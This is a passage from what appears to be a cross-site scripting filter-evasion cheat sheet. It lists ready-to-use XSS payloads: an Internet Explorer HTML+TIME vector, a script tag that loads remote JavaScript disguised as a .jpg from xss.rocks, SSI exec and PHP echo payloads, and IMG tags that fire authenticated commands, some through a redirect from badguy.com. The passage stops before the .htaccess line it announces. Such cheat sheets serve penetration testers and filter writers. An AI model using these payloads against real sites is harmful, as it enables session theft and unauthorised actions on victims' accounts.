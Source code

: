 This attack only works in IE and remember that you need to be between HTML and BODY tags for this to work:

```html
<HTML><BODY>
<?xml:namespace prefix="t" ns="urn:schemas-microsoft-com:time">
<?import namespace="t" implementation="#default#time2">
<t:set attributeName="innerHTML" to="XSS<SCRIPT DEFER>alert("XSS")</SCRIPT>">
</BODY></HTML>
```

(This is how Grey Magic hacked Hotmail and Yahoo!)

### Assuming you can only fit in a few characters and it filters against `.js`

This attack allows you to rename your JavaScript file to an image as an XSS vector:

```html
<SCRIPT SRC="http://xss.rocks/xss.jpg"></SCRIPT>
```

### SSI (Server Side Includes)

This requires SSI to be installed on the server to use this XSS vector. I probably don't need to mention this, but if you can run commands on the server there are no doubt much more serious issues:

```js
<!--#exec cmd="/bin/echo '<SCR'"--><!--#exec cmd="/bin/echo 'IPT SRC=http://xss.rocks/xss.js></SCRIPT>'"-->
```

### PHP

This attack requires PHP to be installed on the server. Again, if you can run any scripts remotely like this, there are probably much more dire issues:

```php
<? echo('<SCR)';
echo('IPT>alert("XSS")</SCRIPT>'); ?>
```

### IMG Embedded Commands

This attack only works when this is injected (like a web-board) in a web page behind password protection and that password protection works with other commands on the same domain. This can be used to delete users, add users (if the user who visits the page is an administrator), send credentials elsewhere, etc. This is one of the lesser used but more useful XSS vectors:

```html
<IMG SRC="http://www.thesiteyouareon.com/somecommand.php?somevariables=maliciouscode">
```

#### IMG Embedded Commands part II

This is more scary because there are absolutely no identifiers that make it look suspicious other than it is not hosted on your own domain. The vector uses a 302 or 304 (others work too) to redirect the image back to a command. So a normal `<IMG SRC="httx://badguy.com/a.jpg">` could actually be an attack vector to run commands as the user who views the image link. Here is the `.htaccess` (under Apache) line to accomplish the vector:
